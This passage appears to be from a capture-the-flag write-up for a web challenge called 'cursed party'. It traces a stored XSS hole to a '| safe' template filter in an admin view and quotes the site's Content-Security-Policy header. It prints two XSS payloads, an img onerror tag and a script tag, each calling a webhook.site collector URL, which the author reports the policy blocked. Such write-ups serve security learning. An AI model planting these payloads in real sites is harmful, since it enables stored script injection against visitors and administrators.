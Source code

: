 ```js
// ...SNIP...
```

The `get_party_requests()` method, only fetch all records inside the `party_requests`  ➊	(in that table is where our input data is stored). So we can conclude that all we send in the form will be render in the `admin.html` view.  And  the `remove_requests()` delete all records in the same table (maybe to clean).


So what we have until now:

>An user input form where we can send any data we want and it will be render in the `admin.html` template that the bot will be render after we send the requests. After that the data we send will be delete.

So If we expect execute a XSS attack, we need to check the `admin.html` and expect that at least one of the input parameters dont be sanitaze. 

```html
// web_cursed_party/challenge/views/admin.html
// ...SNIP...
                <div class="card-header"> <strong>Halloween Name</strong> : {{ request.halloween_name | safe }}➊ </div>
                <div class="card-body">
                    <p class="card-title"><strong>Email Address</strong>    : {{ request.email }}</p>
                    <p class="card-text"><strong>Costume Type </strong>   : {{ request.costume_type }} </p>
                    <p class="card-text"><strong>Prefers tricks or treat </strong>   : {{ request.trick_or_treat }} </p>
// ...SNIP...      
```
And look at the `hallowen_name`  parameter ➊ , it use the `| safe` filter. That filter says to the engine that the input is safe and dont need to be sanitize. so we have a XSS stored attack.


So to test the XSS payload I use the [webhooh.site](https://webhook.site/) and send the basic payload:

```html
<img src=x onerror="https://webhook.site/2bbcc730-4932-43ed-a209-a85203091910">
```

or this:

```html
<script>new Image().src="https://webhook.site/2bbcc730-4932-43ed-a209-a85203091910";</script>
```

But it does not work, so I recheck the configuration and note that I missed something important in the `web_cursed_party/challenge/index.js` file:
```js
// web_cursed_party/challenge/index.js
// ...SNIP...
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});
// ...SNIP...
```

